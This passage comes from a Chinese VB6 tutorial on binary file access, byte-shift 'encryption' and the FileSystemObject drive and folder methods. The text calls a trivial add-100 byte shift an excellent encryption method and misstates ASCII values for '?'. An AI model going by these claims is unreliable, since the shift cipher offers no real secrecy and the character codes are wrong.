写入文件的时候，同随机文件是很相似的，也是使用 Put 语句。请看下面的例子：

```vb
Private Type User                        ' 定义自定义类型User
    ID         As Integer
    UserName   As String
    Password   As String
End Type

Private Sub Form_Load()
    Dim NewUser As User, NewUser2 As User      ' 声明两个变量，为User型
    ' 下面为两个变量赋值
    NewUser.ID = 1
    NewUser.UserName = "Admin"
    NewUser.Password = "Noheck"
    NewUser2.ID = 2
    NewUser2.UserName = "LiJieJie"
    NewUser2.Password = "BingKer"

    Open App.Path & "\\test.txt" For Binary As #1   ' 使用二进制访问打开文件
    Put #1, , NewUser                               ' 将 NewUser 写入文件
    Put #1, , NewUser2                              ' 将 NewUser2 写入文件
    Close #1                                        ' 关闭文件
End Sub
```

虽然都是使用 Put 语句，但是大家可能已经注意到了，上面的代码中 Put 语句的第二个参数记录编号被省略了。程序运行之后，我们使用记事本打开 test.txt 文件，如图 2-26 所示，全是乱码。可以肯定的是，文件的大小减小了很多，因为它没有固定的记录大小。但是，文本中的内容我们就无法直接辨认了。呵呵。无法用眼睛直接辨认，并不是说没有办法辨认了，我们可以通过程序来辨认嘛。

### d）二进制访问读取记录

读取记录的方法跟随机文件很相似，也是使用 Get 语句。同样，读取的时候省略第二个参数记录编号。我们来读取图 2-26 所示的这个文件，它有两条记录：

```vb
Private Type User
    ID       As Integer
    UserName As String
    Password As String
End Type

Private Sub Form_Load()
    Dim NewUser As User, NewUser2 As User
    Open App.Path & "\\test.txt" For Binary As #1
    Get #1, , NewUser
    MsgBox NewUser.UserName
    Get #1, , NewUser
    MsgBox NewUser.UserName
    Close #1
End Sub
```

运行后如图 2-27 和 2-28 所示，成功读取了两条记录到变量中。需要记住的是，以二进制访问时，在读取和写入数据时，第二个参数记录编号是要省略的。

那如果我们需要读取第十条记录怎么办呢？呵呵，没有其他办法，按顺序来读取咯，从第一条记录开始，一直读取到第十条记录即可。看我为大家提供的代码：

```vb
For i = 1 To 10                ' 循环十次，最终将第十条记录读取到 NewUser
    Get #1, , NewUser
Next i
```

因为二进制访问时写入的记录没有固定的长度，只有顺序地访问以了解每一条记录的长度。想要节省磁盘空间，又想节省代码量，肯定不行啦。如果可以的话，那随机文件访问就应该被淘汰了嘛。

### e）二进制访问文件并读入 Byte 数组

使用二进制访问时，可以将文件中的所有数据读入一个 Byte 数组中。数组的大小决定于文件的字节数。例如，一个文件有 1000 字节，那么我们就可以定义一个大小为 1000 的 Byte 数组。使用这种方法，也可以很容易地实现文件加密。呵呵，大家一定非常迫切地想要了解了吧？先简单举例，我们将程序目录下的 head.bmp 文件中的数据读入一个名为 FileByte 的数组中：

```vb
Private Sub Form_Load()
    Open App.Path & "\\head.bmp" For Binary Access Read As #1    ' 打开文件
    Dim FileByte() As Byte                                       ' 声明一个动态数组
    Dim FileLen As Long
    FileLen = LOF(1)                                             ' 返回文件字节数到 FileLen 变量
    ReDim FileByte(0 To FileLen - 1) As Byte                     ' 重新分配 Byte 数组大小为文件字节大小
    Get #1, , FileByte                                           ' 将文件数据读入 FileByte 这个 Byte 数组中
    Close #1
    MsgBox FileByte(0)                                            ' 提示 FileByte 数组中第一个元素的值
    MsgBox FileByte(1)                                            ' 提示 FileByte 数组中第二个元素的值
End Sub
```

我们知道 Byte 变量存储的是无符号整型、8 位（1 个字节）的数值形式，范围在 0 至 255 之间。运行后看看结果，如图 2-29 和 2-30 所示，确实是位于 0 到 255 之间。

图 2-29 FileByte 数组中第一个元素的值；图 2-30 FileByte 数组中第二个元素的值。

读者朋友们可以很简单地理解。这里我们是将文件的所有字节都存储在了一个字节数组中，该字节数组的大小等于文件的字节数。例如，我们把 head.bmp 这个文件的第一个字节存储在了 FileByte(0) 中，第二个字节存储在了 FileByte(1) 中，请注意数组下界是从 0 开始的。

字节类型（Byte）变量只能存储 0 到 255 之间的无符号数，我们可以非常容易地对其进行加密转换。如果一个文件过大，我们可以将它分割成几个小文件，怎么分割呢？这里为大家提供思路，将文件的所有字节分为几部分，然后分别将这些部分写入文件。

### 2.3.4 传统文件访问实现文件加密、分割、合并

使用传统文件访问方法，可以实现对文件的各种加密，以及文件的分割和合并操作。

- 1. 顺序文件加密——ASCII 码加密

对于普通的顺序文件，例如我们平时用记事本写的日记，可以进行简单的 ASCII 码加密。只需要依次从文件中读取每一个字符，然后对字符取 ASCII 码，对所得的 ASCII 码进行一定的运算操作，再转变为字符即可。下面的例子中，我们对每一个字符的 ASCII 码加 10，非常简单，也就是所谓的位移加密：

```vb
Private Sub Form_Load()
    Dim MyChar As String, NewChar As String    ' 声明两个字符串变量
    Open App.Path & "\\test.txt" For Input As #1    ' 以 Input 打开文件 test.txt
    Open App.Path & "\\test2.txt" For Output As #2
    While Not EOF(1)
        MyChar = Input(1, #1)
        NewChar = Chr(Asc(MyChar) + 10)
        Print #2, NewChar;
    Wend
    Close #2
    Close #1
End Sub
```

- 以 Output 打开文件 test2.txt
- 循环读取文件中的每一个字符
- 读取一个字符返回给 MyChar 变量
- 新字符的 ASCII 码比原来多 10
- 将新字符输出到文件 2，即 test2.txt
- 关闭文件 2
- 关闭文件 1

运行之前的文件 test.txt 如图 2-31 所示。经过程序加密之后的文本内容如图 2-32 所示。是不是已经辨认不出来了呢？这种加密方式简单而高效，但是，它的缺点也是很明显的。什么缺点呢？在第一章中，我们有介绍 ASCII 码字符集。表格中，有些 ASCII 对应的字符在 Windows 中是无法显示的，我们当时的说法是 Microsoft Windows 不支持这些字符。如果 Windows 中无法显示这些字符，就可能不会在文本中显示出来，或者是显示为空白、问号等。例如：ASCII 码为 10 的字符是不会输出到文本的，ASCII 码为 9 的字符直接在文本中输出空白。这样导致的结果就是，可能我们加密 100 个字符，但最终只得到了 95 个字符，而另 5 个字符根本没有显示出来。解密的时候，我们也将只能得到 95 个字符。例如，我们把上面加密后的 test2.txt 再来进行可逆的解密，看得到的结果是什么：

```vb
Private Sub Form_Load()
    Dim MyChar As String, NewChar As String
    Open App.Path & "\\test2.txt" For Input As #1
    Open App.Path & "\\test3.txt" For Output As #2
    While Not EOF(1)
        MyChar = Input(1, #1)
        NewChar = Chr(Asc(MyChar) - 10)
        Print #2, NewChar;
    Wend
    Close #2
    Close #1
End Sub
```

- 声明两个字符串变量
- 以 Input 打开 test2.txt
- 以 Output 打开 test3.txt
- 循环取出 test2.txt 中的每一个字符
- 取出一个字符到 MyChar 变量中
- 原来的字符 ASCII 码减少 10 再赋值给 NewChar
- 将 NewChar 输出到文件 2
- 关闭文件 2
- 关闭文件 1

上面的代码运行后，我们打开 test3.txt 查看文件，如图 2-33 所示。

大家已经看到了，并没有得到我们想要的结果，“网络安全”四个字变成了“5络安全”。显然，我们并不想看到自己写的“我爱你”在情书中变成了“我恨你”之类的。我们来分析一下上面的“网”字为什么变成了 5？在立即窗口中将“网”字的 ASCII 码输出，还有 ASCII 码增加 10 后对应的字符：

```vb
Debug.Print Asc("网")
Debug.Print Chr(Asc("网") + 10)
```

- 输出“网”字的 ASCII 码
- 输出比“网”的 ASCII 码多 10 对应的字符

如图 2-34 所示，得到“网”字的 ASCII 码是 -12808，第二个输出的结果是问号。

图 2-34 立即窗口中的输出结果。

但是问号的 ASCII 码真的是 -12798 吗？答案是否定的。通过查看第一章中的字符集表格，我们可以看到问号 “?” 的 ASCII 码其实是 95。当我们解密时，在原来 ASCII 码的基础上减少 10，也就是 85，恰好就变成了数字 “5”。这就是为什么我们的“网络安全”经过一加密一解密就变成了“5络安全”。

解决此问题的方法通常是放弃对那些加密后可能无法正常解密的字符的加密操作。例如，我们知道了“网”字加密后无法正常解密，就应该放弃对它使用之前的这种加密方法，考虑换用另一种加密方式。

对于随机文件，我们也可以考虑把它当成顺序文件来加密，反正文件中存放的都是一些字符嘛。好了，我们来介绍一种更好的加密方式吧。

- 2. 二进制方式加密

通过将文件中的所有字节读入一个 Byte 字节数组中，然后对其进行一定的处理，再输出到文件，就可以实现加密了。这种加密方式对任何类型的文件都可以通用。下面示例将图像文件 head.bmp 加密后输出到文件 head.bing。因为每一个 Byte 变量的范围都是 0-255，我们可以进行下面的转换：

- a) 如果 Byte 变量的值小于 156，则在原来的基础上加 100。例如，1 变为 101。
- b) 如果 Byte 变量的值大于或等于 156，则在原来的基础上加 100，再减去 256。例如，156 将变成 0，而 157 将变成 1。

```vb
Private Sub Form_Load()
    Dim FileLen As Long, FileByte() As Byte
    Dim i As Integer
    Open App.Path & "\\head.bmp" For Binary Access Read As #1
        FileLen = LOF(1)
        ReDim FileByte(0 To FileLen - 1) As Byte
        Get #1, , FileByte()
        For i = 0 To FileLen - 1
            If FileByte(i) < 156 Then
                FileByte(i) = FileByte(i) + 100
            Else
                FileByte(i) = FileByte(i) + 100 - 256
            End If
        Next i
    Close #1
    Open App.Path & "\\head.bing" For Binary As #1
    Put #1, , FileByte()
    Close
End Sub
```

运行上面的代码，会在程序目录下生成一个 head.bing 的文件，它的大小跟 head.bmp 是一样的，因为字节数都相等嘛。如果把这个 head.bing 重命名为 head2.bmp，会发现它根本就无法显示。因为文件中的每一个字节都发生改变，它不再是图片格式的文件了。如图 2-35 所示，它们都是 27KB，通过右键查看属性，可以发现都是 27702 字节。

图 2-35 二进制加密前后的文件对比。

如果对一个文本内容进行加密，可以发现文本中内容发生了巨大改变，如图 2-36 和图 2-37 所示。第二个文件里，已经恍若天书了，呵呵，这种加密方式是不是挺好的呢？

上面的加密方式是可逆的，它的逆算法是：

- a) 如果 Byte 变量的值位于 100 到 255 之间，则在原来的基础上减去 100。例如，100 将变为 0，255 将变成 155。
- b) 如果 Byte 变量的值位于 0 到 99 之间，则在原来的基础上减去 100，再加上 256。例如，0 将变成 156，而 99 则将变成 255。

请看下面的代码，我们将上一个例子中加密后的 head.bing 文件解密为 MyHead.bmp 到程序目录中，除了算法不一样外，其他地方都是非常相似的，所以不再写注释了：

```vb
Private Sub Form_Load()
    Dim FileLen As Long, FileByte() As Byte
    Dim i As Integer
    Open App.Path & "\\head.bing" For Binary Access Read As #1
        FileLen = LOF(1)
        ReDim FileByte(0 To FileLen - 1) As Byte
        Get #1, , FileByte()
        For i = 0 To FileLen - 1
            If FileByte(i) >= 100 And FileByte(i) <= 255 Then
                FileByte(i) = FileByte(i) - 100
            Else
                FileByte(i) = FileByte(i) - 100 + 256
            End If
        Next i
    Close #1
    Open App.Path & "\\MyHead.bmp" For Binary As #1
        Put #1, , FileByte()
    Close
End Sub
```

运行上面的代码，再查看程序目录，可以发现多了一个 MyHead.bmp，而且这个图片可以正常显示，它跟之前的 head.bmp 显示出来的效果是一样的。

由此，我们知道二进制加密和 ASCII 码加密都是非常精确的，不会出现什么误差或者错误。它是一种优秀的加密方式，在这里推荐大家使用。不过，算法可就需要认真地考虑了，不要仅仅是像上面一样进行简单的加减运算。

### 2.3.5 小结一下

到此，关于传统文件访问方法的内容就介绍完毕了。大家应该熟练掌握几个语句和函数：Open 语句、Put 语句、Get 语句、Print 语句、Line Input 语句、Close 语句、Input 函数、LOF 函数等。别看有这么多，其实随着大家的熟悉，都挺简单的。才开始觉得不熟悉是很正常的，我希望读者朋友们买这本书不是看一遍就算了，对于不够清楚的地方，要反复看，加深理解。

相对于一些人写书喜欢用很专业的词汇，我则希望用更通俗的语言让大家理解内容。先喝口水，接下来继续为读者朋友们介绍后续的内容：FSO 对象模型的使用。

## 2.4 使用 FSO 对象模型访问文件

首先介绍一下 FSO 对象模型，引用 VB6.0 帮助文档中的描述：Visual Basic 的一个新功能是 File System Object（FSO）对象模型，该模型提供了一个基于对象的工具来处理文件夹和文件。这使您除了使用传统的 VB 语句和命令之外，还可以使用您所熟悉的带有一整套属性、方法和事件的 object.method 语法来处理文件夹和文件。

FSO 对象模型使应用程序能够创建、改变、移动和删除文件夹，或者检测是否存在指定的文件夹；如果存在，在哪。FSO 对象模型也能获取关于文件夹的信息，诸如名称、创建日期或最近修改日期等等。

FSO 对象模型也使得对文件的处理变得更加简单。在处理文件时，首要目标就是能以一种可以有效利用空间和资源、并且易于存取的格式来存储数据，需要能够创建文件、插入和修改数据以及输出（读）数据。虽然可以将数据存储在诸如 Jet 或 SQL 这样的数据库中，但是这样做将在应用程序中加入相当数量的额外开支。由于多种原因，你不想有这样的额外开支，或者数据存取要求不需要用一个与全功能数据库关联的所有额外功能。在这种情况下，用二进制或文本文件来存储数据是最有效的解决方法。

FSO 对象模型不支持二进制文件的创建和操作。要操作二进制文件，请使用带 Binary 标志的 Open 命令。关于如何操作二进制文件的详细信息，请参阅本章的“使用二进制文件访问”部分。

使用 FSO 对象时，我们需要先创建一个 FSO 对象，然后使用它的某一方法来得到一个对象，最后再返回对象的某项属性即可。当然，第三步并不是必须的，也就是说，我们可能只需要使用 FSO 对象的某个方法，而根本不必返回其某个属性。

### 2.4.1 创建一个 FSO 对象

要使用 FSO 对象，首先必须创建它。可以使用下面的两种语句来创建一个 FSO 对象。

- 1. 使用 New 关键字将一个变量声明为指定的类型

```vb
Dim Fso As New FileSystemObject    ' 将变量 Fso 声明为 FSO 对象
```

不过，若此时你运行该代码，可能会出现错误提示“用户定义类型未定义”，如图 2-38 所示。这是我们还没有加入对 Scripting Runtime 类型库的引用。引用的方法是，在菜单栏中选择“工程(P)”→“引用”，此时，出现如图 2-39 所示的对话窗口。在列表中找到“Microsoft Scripting Runtime”，勾选之，确定即可。这样我们就添加了对 Scripting Runtime 类型库的引用，若再运行上面的代码，就会发现不会出错了。





- 2. 使用 CreateObject 函数来创建一个 FSO 对象

使用 CreateObject 函数可以创建诸多对象，FSO 对象包括在内。请参考下面的代码：

```vb
Dim Fso As Object                                     ' 声明一个对象引用类型的变量 Fso
Set Fso = CreateObject("scripting.filesystemobject") ' 创建 FSO 对象
```

以上代码中，Scripting 是类型库的名称，而 FileSystemObject 则是对象的名称。在 ASP 中也可以创建一个 FSO 对象，使用代码：`Server.CreateObject("Scripting.FileSystemObject")`。可以看出，它们的差别很小，只是 ASP 代码多了一个 Server 对象。

FSO 对象模型包括了以下这些对象：

| 对象 | 描述 |
|---|---|
| Drive | 允许收集关于系统所用的驱动器的信息，诸如驱动器有多少可用空间，其共享名称是什么，等等。请注意，一个“驱动器”并不一定是一个硬盘。它可以是 CD-ROM 驱动器、一个 RAM 盘等等，而且驱动器不一定是和系统物理地连接，也可以通过一个 LAN 进行逻辑地连接。 |
| Folder | 允许创建、删除或移动文件夹，并向系统查询文件夹的名称、路径等。 |
| File | 允许创建、删除或移动文件，并向系统查询文件的名称、路径等。 |
| FileSystemObject | 该组的主要对象，提供一整套用于创建、删除、收集相关信息以及通常操作驱动器、文件夹和文件的方法。与本对象相关联的很多方法复制了其他对象中的方法。 |
| TextStream | 允许读和写文本文件。 |

以上五个对象我们会一一介绍。使用对象的方法来进行文件编程，相对于传统的文件方法来说，要更加容易理解一些。

### 2.4.2 FileSystemObject 对象

FileSystemObject 对象应该是 FSO 对象中最重要的一个对象。它提供对计算机文件系统的访问，可用于对驱动器、文件夹、文件的操作。

### 1）对驱动器的操作

FileSystemObject 对象对驱动器的操作包括获取驱动器列表、判断驱动器是否存在、返回一个驱动器对象并获取其属性、获取路径中的驱动器名称等。下面列表概述它常用的 1 个属性和 3 个方法：

| 属性或方法 | 功能描述 |
|---|---|
| Drives 属性 | 返回包含本地机器上所有可用 Drive 对象的 Drives 集合。 |
| DriveExists 方法 | 判断指定的驱动器是否存在。如果指定的驱动器存在，返回 True；如果不存在返回 False。 |
| GetDrive 方法 | 返回一个与指定路径中的驱动器相对应的 Drive 对象。 |
| GetDriveName 方法 | 根据指定的路径返回一个包含该路径的驱动器名字的字符串。 |

##### a) Drives 属性

该属性用于返回本机中所有可用的 Drive 对象的 Drives 集合。它的基本形式是：`FSO 对象名.Drives`。

> 注意：对于可删除媒体驱动器来说，不需要插入媒体，就可使其出现在 Drives 集合中。比如我们的 DVD 驱动器，尽管我们没有插入 DVD，但是该驱动器同样存在于 Drives 集合中。

可以用 For Each…Next 结构遍历 Drives 集合中的成员。例如，我们将驱动器列表添加到一个 ListBox 列表框中。首先在窗体中画一个 ListBox，名称为 List1 即可，再在窗体载入事件中添加如下代码：

```vb
Dim Fso As Object
Set Fso = CreateObject("scripting.filesystemobject")   ' 创建 FSO 对象
Dim MyDrive As Drive
For Each MyDrive In Fso.Drives                         ' 使用 For...Each 语句遍历 Drives 对象集合
    List1.AddItem MyDrive                              ' 将 MyDrive 添加到 List1 中
Next
```

上面的代码运行后如图 2-40 所示。如果读者朋友们想要获取磁盘的总个数，只需要简单使用集合对象中的 Count 方法即可。Count 方法在集合对象中是通用的：

```vb
Private Sub Form_Load()
    Dim Fso As Object
    Set Fso = CreateObject("scripting.filesystemobject")
    Set mydrives = Fso.Drives
    MsgBox "磁盘的总个数是：" & mydrives.Count   ' 使用 Count 方法返回磁盘总数
End Sub
```



图 2-40 使用 For…Each 语句遍历 Drives 对象集合



图 2-41 使用 Count 方法返回磁盘总数

上面的代码运行后如图 2-41 所示，可以正确返回磁盘的总个数。

##### b) DriveExists 方法

该方法用于判断指定的驱动器是否存在。如果指定的驱动器存在返回 True，如果不存在则返回 False。其基本形式是：`FSO 对象名.DriveExists(盘符)`。例如，我们要判断 D 盘是否存在，就可以使用代码：

```vb
Private Sub Form_Load()
    Dim Fso As Object
    Set Fso = CreateObject("scripting.filesystemobject")   ' 创建 FSO 对象
    If Fso.DriveExists("D") Then                           ' 如果 D 盘存在，则给出对应提示
        MsgBox "D盘存在"
    Else
        MsgBox "D盘不存在"
    End If
End Sub
```

##### c) GetDrive 方法

该方法可以返回一个与指定路径中的驱动器相对应的 Drive 对象。它的基本形式：`FSO 对象名.GetDrive(盘符)`。这里的参数盘符可以是一个驱动器字符（c）、一个驱动器字符加一个冒号（c:）、一个驱动器字符加冒号和路径分隔符（c:\）或任何网络共享的说明（\\computer2\share1）。

当我们使用 GetDrive 方法返回一个 Drive 对象后，就可以获取这个 Drive 对象的各种属性了，非常方便。例如，我们需要知道 D 盘的卷标名和磁盘剩余空间的大小，就可以使用代码：

```vb
Dim Fso As Object
Set Fso = CreateObject("scripting.filesystemobject")   ' 创建 FSO 对象
Dim MyDrive As Object
Set MyDrive = Fso.GetDrive("D")                        ' 使用 GetDrive 方法返回一个 Drive 对象
MsgBox "卷标名为：" & MyDrive.VolumeName               ' 获取卷标名
MsgBox "还剩下" & MyDrive.FreeSpace / 1024 / 1024 / 1024 & "GB 空间可用"
```

上面的代码中，VolumeName 是 Drive 对象的卷标名属性，而 FreeSpace 则是 Drive 对象的剩余容量属性。程序运行后如图 2-42 和 2-43 所示。当然了，Drive 对象还有其他好几个属性，在这里不作介绍，此处介绍的只是 FileSystemObject 对象，后面会较详细地介绍 Drive 对象的。




##### d) GetDriveName 方法

该方法用于返回一个包含指定路径的驱动器名字的字符串。它的基本形式是：`FSO 对象名.GetDriveName(路径)`。例如，如果参数路径的值是 “D:\Temp3\1111.txt”，则会返回 “D:” 。

```vb
Dim Fso As Object
Set Fso = CreateObject("scripting.filesystemobject")   ' 创建 FSO 对象
MsgBox Fso.GetDriveName("D:\Temp3\1111.txt")           ' 返回 D:
```

### 2）对文件夹的操作

FileSystemObject 对象中拥有多种对文件夹进行操作的方法，请参阅下面的表格：

| 方法 | 功能描述 |
|---|---|
| BuildPath 方法 | 追加一个名字到一个已经存在的路径。 |
| CopyFolder 方法 | 从一个地方复制一个文件夹到另一个地方。 |
| CreateFolder 方法 | 创建一个文件夹。 |
| DeleteFolder 方法 | 删除一个指定的文件夹和它的内容。 |
| FolderExists 方法 | 如果指定的文件夹存在返回 True，不存在返回 False。 |
| GetFolder 方法 | 返回一个和指定路径中文件夹相对应的 Folder 对象。 |
| GetParentFolderName 方法 | 返回一个包含指定路径最尾部件父文件夹名字的字符串。 |
| GetSpecialFolder 方法 | 返回指定的特殊文件夹。 |
